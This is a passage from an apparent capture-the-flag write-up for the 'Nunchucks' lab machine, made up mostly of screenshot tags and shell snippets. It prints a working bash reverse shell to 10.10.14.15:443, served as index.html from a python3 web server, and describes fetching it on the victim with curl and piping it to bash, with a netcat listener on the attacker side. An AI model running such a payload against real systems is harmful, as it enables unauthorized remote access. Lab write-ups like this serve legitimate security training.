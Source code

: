 ```bash
burpsuite &> /dev/null & disown
```

<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_20.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now that I can execute commands on the victim machine, I am going to check if I have connectivity to my machine and it looks very good. I'm going to create a malicious `index.html` file, with `bash` code to get a **Reverse Shell**. If I create a local server with `python3`, exposing my resources, I will load the malicious file with `curl`, from the victim machine, and execute its content with `bash`. That's it, I can access the machine and I check that it is not in any container.

```bash
tcpdump -i tun0 icmp -n

nvim index.html
```

> **index.html**

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```

> **Attacker Machine**

```bash
python3 -m http.server 80
nc -nlvp 443
```

> **Victime Machine**

```bash
whoami
hostname
hostname -I
```

<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_21.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_22.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_23.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">